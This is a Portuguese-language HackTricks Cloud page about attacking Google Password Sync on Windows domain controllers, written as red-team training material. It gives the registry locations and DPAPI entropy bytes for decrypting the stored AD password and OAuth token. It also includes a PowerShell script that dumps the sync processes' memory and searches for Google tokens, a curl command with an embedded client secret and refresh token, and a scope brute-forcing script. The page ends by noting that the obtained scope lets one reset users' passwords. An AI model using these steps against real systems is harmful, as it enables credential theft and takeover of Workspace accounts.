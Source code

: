 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informações Básicas

Este é o binário e serviço que o Google oferece para **manter sincronizadas as senhas dos usuários entre o AD** e o Workspace. Sempre que um usuário altera sua senha no AD, ela é definida no Google.

Ele é instalado em `C:\Program Files\Google\Password Sync`, onde você pode encontrar o binário `PasswordSync.exe` para configurá-lo e `password_sync_service.exe` (o serviço que continuará em execução).

### GPS - Configuração

Para configurar este binário (e serviço), é necessário **dar acesso a um principal Super Admin no Workspace**:

* Login via **OAuth** com o Google e então ele **armazenará um token no registro (criptografado)**
* Disponível apenas em Controladores de Domínio com GUI
* Fornecendo algumas **credenciais de Conta de Serviço do GCP** (arquivo json) com permissões para **gerenciar os usuários do Workspace**
* Ideia muito ruim, pois essas credenciais nunca expiram e podem ser mal utilizadas
* Ideia muito ruim dar acesso a uma SA sobre o workspace, pois a SA pode ser comprometida no GCP e será possível pivotar para o Workspace
* O Google exige isso para controladores de domínio sem GUI
* Essas credenciais também são armazenadas no registro

Quanto ao AD, é possível indicar para usar o **contexto de aplicações atual, anônimo ou algumas credenciais específicas**. Se a opção de credenciais for selecionada, o **nome de usuário** é armazenado dentro de um arquivo no **disco** e a **senha** é **criptografada** e armazenada no **registro**.

### GPS - Extraindo senha e token do disco

{% hint style="success" %}
Note que [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) é capaz de detectar **GPS**, obter informações sobre a configuração e **até mesmo descriptografar a senha e o token**.
{% endhint %}

No arquivo **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** é possível encontrar parte da configuração, como o **`baseDN`** do AD configurado e o **`username`** cujas credenciais estão sendo usadas.

No registro **`HKLM\Software\Google\Google Apps Password Sync`** é possível encontrar o **token de atualização criptografado** e a **senha criptografada** para o usuário do AD (se houver). Além disso, se em vez de um token, algumas **credenciais de SA** forem usadas, também é possível encontrar essas criptografadas nesse endereço do registro. Os **valores** dentro deste registro são acessíveis apenas por **Administradores**.

A **senha criptografada** (se houver) está dentro da chave **`ADPassword`** e é criptografada usando a API **`CryptProtectData`**. Para descriptografá-la, você precisa ser o mesmo usuário que configurou a sincronização de senhas e usar esta **entropia** ao usar a **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

O token criptografado (se houver) está dentro da chave **`AuthToken`** e é criptografado usando a API **`CryptProtectData`**. Para descriptografá-lo, você precisa ser o mesmo usuário que configurou a sincronização de senhas e usar esta **entropia** ao usar a **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Além disso, também é codificado usando base32hex com o dicionário **`0123456789abcdefghijklmnopqrstv`**.

Os valores de entropia foram encontrados usando a ferramenta. Ela foi configurada para monitorar as chamadas para **`CryptUnprotectData`** e **`CryptProtectData`** e então a ferramenta foi usada para iniciar e monitorar `PasswordSync.exe`, que descriptografará a senha configurada e o token de autenticação no início, e a ferramenta **mostrará os valores da entropia usada** em ambos os casos:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Note que também é possível ver os valores **descriptografados** na entrada ou saída das chamadas para essas APIs também (caso em algum momento o Winpeas pare de funcionar).

Caso a sincronização de senhas tenha sido **configurada com credenciais de SA**, também será armazenada em chaves dentro do registro **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Extraindo tokens da memória

Assim como com o GCPW, é possível extrair a memória do processo dos processos `PasswordSync.exe` e `password_sync_service.exe` e você poderá encontrar tokens de atualização e acesso (se já tiverem sido gerados).\
Acho que você também poderia encontrar as credenciais configuradas do AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> e os processos <code>password_sync_service.exe</code> e buscar tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Gerando tokens de acesso a partir de tokens de atualização

Usando o token de atualização, é possível gerar tokens de acesso utilizando-o e o ID do cliente e o segredo do cliente especificados no seguinte comando:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Escopos

{% hint style="info" %}
Observe que, mesmo tendo um token de atualização, não é possível solicitar nenhum escopo para o token de acesso, pois você só pode solicitar os **escopos suportados pela aplicação onde você está gerando o token de acesso**.

Além disso, o token de atualização não é válido em todas as aplicações.
{% endhint %}

Por padrão, o GPS não terá acesso como o usuário a todos os possíveis escopos OAuth, então, usando o seguinte script, podemos encontrar os escopos que podem ser usados com o `refresh_token` para gerar um `access_token`:

<details>

<summary>Script Bash para força bruta de escopos</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

E este é o resultado que obtive no momento da escrita:
```
https://www.googleapis.com/auth/admin.directory.user
```
Qual é o mesmo que você obtém se não indicar nenhum escopo.

{% hint style="danger" %}
Com este escopo, você poderia **modificar a senha de um usuário existente para escalar privilégios**.
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
